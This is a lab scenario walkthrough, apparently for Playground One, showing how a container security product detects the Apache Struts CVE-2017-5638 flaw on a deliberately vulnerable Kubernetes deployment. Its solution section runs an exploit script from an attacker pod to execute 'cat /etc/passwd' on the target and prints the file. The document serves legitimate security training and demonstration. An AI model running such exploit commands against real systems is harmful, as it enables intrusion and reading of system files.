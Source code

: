 # Scenario: Runtime Vulnerability Scanning

***DRAFT***

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the vulnerability detection functionalities of Vision One Container Security at runtime. The deployments of the scenarios configuration are all based on container images with plenty of different vulnerabilities.

By the end of the scenario, you will understand and learn the following:

- Reviewing vulnerability findings and searching for a specific vulnerability
- Proof the finding by exploitation

## The story

Every now and then new critical vulnerabilities are disclosed. A famous one with huge impact was the  vulnerability CVE-2017-5638. 

On March 6th 2017, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This vulnerability allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header. Written in Java, Apache Struts 2 is the popular open source web application framework. This is yet another incident that adds up to a long list of vulnerabilities in this framework.

You want to search and validate for this specific vulnerability in your production environment.

## Goals

The goal of this scenario is to identify the vulnerable deployment and proof that it is vulnerable.

### Hints

<details>
<summary>Click here</summary>

✨ Didn't find the vulnerable deployment?
<br><br>
Head over to Container Security --> Runtime vulnerability and search for CVE-2017-5638. 🙌
<br><br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Head over to Attack Surface Risk Managemet and search for the vulnerability CVE-2017-5638

Identify the vulnerable deployment/container

Find out the namespace and metadata.

You'll see that the deployment is running within the `victims` namespace and owns the label `app=java-goof`.

Checking the services in the namespace `victims` 

```sh
kubectl -n victims get services
```

tells us

```
NAME                TYPE       CLUSTER-IP       EXTERNAL-IP   PORT(S)          AGE
java-goof-service   NodePort   172.20.132.99    <none>        8080:30119/TCP   26m
web-app-service     NodePort   172.20.121.120   <none>        80:32194/TCP     26m
```

That `java-goof` is reachable on port 8080.

Let's try to verify the vulnerability using the `attacker-cve-2017-5638` pod running in the namespace `attackers`. In your shell run

```sh
namespace="victims"

kubectl exec -n attackers \
  $(kubectl -n attackers get pods --selector=app=attacker-cve-2017-5638 -o jsonpath='{.items[0].metadata.name}') -- \
  python3 exploit.py http://java-goof-service.${namespace}:8080 'cat /etc/passwd'
```

```ascii
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: cat /etc/passwd

b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\n'
```

You proofed that the application server of your little todolist application is vulnerable to CVE-2017-5638.

You may recognize the url `http://java-goof-service.${namespace}:8080` used in the `kubectl` command. Since we're attacking from a pod running on the cluster we can reference the java-goof-service by it's DNS name managed by CoreDNS. The schema for this is `service.namespace`.

🎉 Success 🎉

</details>
